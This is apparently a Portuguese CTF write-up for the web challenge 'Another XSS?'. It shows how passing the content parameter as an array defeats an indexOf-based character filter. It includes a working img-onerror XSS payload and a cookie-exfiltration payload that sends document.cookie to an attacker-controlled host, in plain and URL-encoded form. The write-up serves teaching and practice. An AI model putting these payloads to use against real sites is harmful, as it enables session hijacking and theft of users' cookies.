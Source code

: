 # Another XSS?
### _WEB_

Acessando o desafio nos deparamos com uma página em branco. Lendo o HTML da página temos o seguinte javascript:
```
var params = can.deparam(location.search.slice(1));
var content = ( params.hasOwnProperty('content') ? params.content : "" );

if (content.indexOf('<') != -1 || content.indexOf('>') != -1 || content.indexOf(':') != -1 || content.indexOf('(') != -1 || content.indexOf(')') != -1 || content.indexOf('`') != -1){ 
	content = false;
} 

var child = document.getElementById("content");
child.innerHTML = content;
```

Além de se ter o comentário ```/admin```. Tendo o admin e o nome da chall ser "Another XSS?" já se sabe falha a ser explorada.

Analisando o JS, o parâmetro content recebe um valor e esse valor é colocado na página, depois de algumas verificações de caracteres (para evitar execução de javascript).
![Imagem 1](./another1.png)

![Imagem 2](./another2.png)

Não conseguimos apenas passar uma tag html para executar um javascript pois a maioria está sendo bloqueada. Porém, ao passar o parâmetro content como um array, temos que as função indexOf retorna tudo -1 pois a função trabalha apenas com strings. Sendo assim, temos o nosso payload ```?content[][]=<img src=x onerror=alert(1)>```
![Imagem 3](./another3.png)

E, então, para pegar a flag: ```?content[][]=<img src=x onerror="location='http://seuip/?flag='+document.cookie">```

Enviando ```http://ctf-defconpoa:5008/?content[][]=%3Cimg%20src%3Dx%20onerror%3D%22location%3D'http%3A%2F%2F0.0.0.0%3A8000%2F%3Fflag%3D'%2Bdocument.cookie%22%3E``` para o ```/admin```...

No servidor:
![Imagem 4](./another4.png)

FLAG:
```DC5551{xss_every_d4y!}```
